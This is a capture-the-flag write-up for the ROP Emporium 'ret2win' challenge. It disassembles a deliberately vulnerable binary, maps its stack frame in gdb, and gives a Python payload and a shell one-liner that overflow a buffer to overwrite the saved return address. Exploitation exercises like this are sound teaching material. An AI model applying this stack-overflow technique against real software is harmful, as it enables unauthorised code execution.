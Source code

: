 ```yaml
---
title: 01_ret2win
categories: [series, rop_emporium]
---
```


# ROP Emporium ret2win

* **Tools:** IDA Free 7.0, gdb-gef, checksec
* **Prerequistes:** Stack frame
* **Download solution:** [main.py](/assets/series/rop_emporium/main.py)

## Overview

> "[...] there is a magic method we want to call and we'll do so by overwriting a saved return address on the stack. [...]"

As stated by the author, this first challenge exists for us to discover the joys of overwriting a return address. The tool _checksec_ confirms this as there is no stack canary:

Protection | Status
---------- |-------
relro | partial
**canary** | **no**
nx | yes
pie | no
rpath | no
runpath | no
fortify_source | no
fortified | 0
fortify-able | 6

We want to reach function `ret2win()`, found at address `0x400811`.

## Function pwnme()

Everything occurs within the function `pwnme()`. First, it sets the stack frame (32 bytes):
```
00000000004007B5    push    rbp
00000000004007B6    mov     rbp, rsp
00000000004007B9    sub     rsp, 20h ; 32 bytes
```
Then, it clears the 32 bytes buffer that will contains input from the user:
```
00000000004007BD    lea     rax, [rbp+s]
00000000004007C1    mov     edx, 20h        ; n
00000000004007C6    mov     esi, 0          ; c
00000000004007CB    mov     rdi, rax        ; s
00000000004007CE    call    _memset
```
Finally, get user input:
```
00000000004007F6    mov     rdx, cs:stdin@@GLIBC_2_2_5 ; stream
00000000004007FD    lea     rax, [rbp+s]
0000000000400801    mov     esi, 32h        ; n = 50 bytes
0000000000400806    mov     rdi, rax        ; s
0000000000400809    call    _fgets
```
Loading the binary in gdb and putting a breakpoint at `0x400809`, we have the following stack frame before the call to `_fgets()` (`RSP` and `RBP` values can vary on your machine):
```
0x7fffffffe1e0: 0x0000000000000000  <-+ buffer start
0x7fffffffe1e8: 0x0000000000000000    |
0x7fffffffe1f0: 0x0000000000000000    |
0x7fffffffe1f8: 0x0000000000000000  <-+ buffer end
0x7fffffffe200: 0x00007fffffffe210  <-- saved RBP
0x7fffffffe208: 0x00000000004007a4  <-- saved RIP
```
So, to reach the function `ret2win()` all we have to do is to provide an input long enough to overwrite the saved return address (saved `RIP`) with the correct address. Here the function `ret2win()` is at address `0x400811`.

## Exploiting the function

Here is the raw payload in Python:
```python
payload = b''
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41' # buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41' # buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41' # buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41' # buffer
payload += b'\x42\x42\x42\x42\x42\x42\x42\x42' # RBP
payload += b'\x11\x08\x40\x00\x00\x00\x00\x00' # RIP
```
To send it via the command line:
```bash
python -c 'print("\x41"*0x20+"\x42"*8+"\x11\x08\x40\x00\x00\x00\x00\x00")' | ./ret2win
```
Where:
* The original buffer is filled with 32 `A` characters;
* The original RBP is overwritten with 8 `B` characters;
* The original RIP is overwritten with `0000000000400811`.

Stack frame after `_fgets()`:
```vim
0x00007fffffffe1e0: 0x4141414141414141  <-+ buffer start
0x00007fffffffe1e8: 0x4141414141414141    |
0x00007fffffffe1f0: 0x4141414141414141    |
0x00007fffffffe1f8: 0x4141414141414141  <-+ buffer end
0x00007fffffffe200: 0x4242424242424242  <-- overwritten RBP
0x00007fffffffe208: 0x0000000000400811  <-- <ret2win+0>
```
It seems OK, but:
```
> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
Segmentation fault
```
This input is enough to reach the function we want to get executed. However, we mess with `RBP` and end up with a segfault.

---
EOF
